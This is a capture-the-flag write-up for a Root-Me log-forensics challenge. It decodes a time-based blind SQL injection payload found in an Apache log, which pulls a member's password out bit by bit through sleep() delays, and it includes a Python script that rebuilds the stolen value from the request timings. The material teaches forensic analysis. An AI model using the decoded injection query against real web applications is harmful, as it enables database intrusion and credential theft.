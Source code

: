 # Log analysis web attack

[root-me challenge](https://www.root-me.org/en/Challenges/Forensic/Logs-analysis-web-attack): Our website appears to have been attacked, but our system administrator does not understand web server logs. Can you find out if any data has been stolen?

----

First request:

```text
192.168.1.23 - - [18/Jun/2015:12:12:54 +0200] "GET /admin/?action=membres&order=QVNDLChzZWxlY3QgKGNhc2UgZmllbGQoY29uY2F0KHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwxLDEpLHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwyLDEpKSxjb25jYXQoY2hhcig0OCksY2hhcig0OCkpLGNvbmNhdChjaGFyKDQ4KSxjaGFyKDQ5KSksY29uY2F0KGNoYXIoNDkpLGNoYXIoNDgpKSxjb25jYXQoY2hhcig0OSksY2hhcig0OSkpKXdoZW4gMSB0aGVuIFRSVUUgd2hlbiAyIHRoZW4gc2xlZXAoMikgd2hlbiAzIHRoZW4gc2xlZXAoNCkgd2hlbiA0IHRoZW4gc2xlZXAoNikgZW5kKSBmcm9tIG1lbWJyZXMgd2hlcmUgaWQ9MSk%3D HTTP/1.1" 200 1005 "-" "-"
```

Apache log, urldecode and base64decode:

```text
SELECT (
    CASE FIELD (
        concat(
            SUBSTRING(
                    bin(ascii(SUBSTRING(password,1,1))), 1, 1
            ),
            SUBSTRING(
                    bin(ascii(SUBSTRING(password,1,1))), 2, 1
            )
        ),
        concat(CHAR(48),CHAR(48)),
        concat(CHAR(48),CHAR(49)),
        concat(CHAR(49),CHAR(48)),
        concat(CHAR(49),CHAR(49))
)
    WHEN 1 THEN TRUE
    WHEN 2 THEN sleep(2)
    WHEN 3 THEN sleep(4)
    WHEN 4 THEN sleep(6)
    END
) FROM membres WHERE id=1
```

A blind sql injection attack, in which the attacker executes multiple queries separated by commas. `ASC` to display the list of members in order of largest to smallest, unrelated to the following query. From the select segment, the code to get the content of the password in the `mebres` table has `id=1`; with each character in the password field converted to integer, then to binary string. Each request in turn takes each 2 character bits of the binary string and finds its position in the field – `field(xx,'00','01','10','11')`, case `field=1` returns true, and other values of `field` lead to `sleep` (different values).

```python
from datetime import datetime

f = open("ch13.txt", "r")

timeList = []

char = ''
flag = ""

for line in f:
    timeList += [line[30:38]]

f.close()

for i in range(len(timeList) - 1):
    print(datetime.strptime(timeList[i], '%H:%M:%S'))
    print(datetime.strptime(timeList[i + 1], '%H:%M:%S'))

    timeleft = datetime.strptime(timeList[i + 1], '%H:%M:%S') - datetime.strptime(timeList[i], '%H:%M:%S')
    if i % 4 in [0, 1, 2]:
        if str(timeleft) == '0:00:00':
            char += '00'
        if str(timeleft) == '0:00:02':
            char += '01'
        if str(timeleft) == '0:00:04':
            char += '10'
        if str(timeleft) == '0:00:06':
            char += '11'
    if i % 4 == 3:
        if str(timeleft) == '0:00:02':
            char += '0'
        if str(timeleft) == '0:00:04':
            char += '1'
        print(char)
        flag += chr(int(char, 2))
        char = ''

print(flag)
```
